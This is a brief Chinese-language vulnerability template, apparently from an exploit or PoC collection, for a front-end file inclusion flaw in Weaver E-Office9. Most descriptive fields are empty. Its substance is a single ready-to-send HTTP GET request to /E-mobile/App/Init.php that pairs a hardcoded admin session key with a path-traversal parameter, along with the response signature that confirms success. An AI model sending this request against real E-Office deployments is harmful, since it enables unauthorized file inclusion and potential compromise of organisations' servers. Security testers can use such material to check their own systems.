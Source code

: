 # 泛微E-Office9 前台文件包含

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /E-mobile/App/Init.php?weiApi=1&sessionkey=ee651bec023d0db0c233fcb562ec7673_admin&m=12344554_../../attachment/xxx.xls HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：

> 上传文件定位：
